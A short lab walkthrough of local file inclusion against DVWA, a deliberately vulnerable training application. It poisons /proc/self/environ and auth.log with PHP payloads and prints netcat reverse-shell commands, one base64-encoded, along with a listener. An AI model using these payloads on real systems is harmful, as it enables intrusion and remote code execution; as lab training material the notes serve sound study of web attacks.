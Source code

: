 # File Inclusion

## Method 1
1. *"USER_AGENT"* in in this file
   - ```[DVWA address]/dvwa/vulnerabilities/fi/?page=../../../../../proc/self/environ```
2. Intercept request and modify *"USER_AGENT"* header for test
   - Burp path: Proxy -> Intercept -> Headers -> Modify 'User-Agent' value to ```<?phpinfo();?>``` 
3. Listening on attacker machine
   - ```nc -vv -l -p 8888```
4. Modify *"USER_AGENT"* header for Reverse-shell
   - ```<?passthru("nc -e /bin/sh [Attacker address] 8888");?>```  

## Method 2
1. SSH login attempts are in this file
   - ```[DVWA address]/dvwa/vulnerabilities/fi/?page=../../../../../var/log/auth.log```  
2. Encode ```nc -e /bin/sh [Attacker address] 8888``` to Base64
3. Listening on attacker machine 
   - ```nc -vv -l -p 8888```
4. Attacker machine
   - ```ssh "<?passthru(base64_decode('bmMgLWUgL2Jpbi9zaCAxNzIuMjUuMTIuMzQgODg4OA=='));?>"@[DVWA address]```
 
